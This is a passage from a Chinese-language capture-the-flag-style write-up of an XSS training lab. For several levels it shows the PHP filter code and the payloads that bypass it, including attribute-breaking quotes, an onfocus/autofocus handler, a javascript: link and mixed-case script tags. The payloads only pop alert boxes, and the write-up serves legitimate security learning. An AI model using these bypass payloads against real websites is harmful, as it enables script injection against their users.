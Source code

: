 发现过滤了 `<`、`>`,使用 `"` 可以闭合

测试一下 `test"123`

![images](../../../assets/img/安全/实验/XSS/3.png)

构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test"onfocus=alert(1) autofocus "`

---

# level 5

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```

这一关主要过滤了 `<script` 和 `on`

使用 `">` 闭合,然后使用一个不被过滤的payload `<a href=javascript:alert(19)>M`

payload: `"><a href=javascript:alert(19)>M`

---

# level 6

```php
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```

和上一关一样,过滤的变多了,`href`,`data`,`src` 也被过滤,但是并没有将其大小写检测

一样,使用 `">` 闭合,然后使用一个不被过滤的payload `<ScRiPt>alert(123)</ScRiPt>`

payload: `"><ScRiPt>alert(123)</ScRiPt>`

---

# level 7

```php
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
```
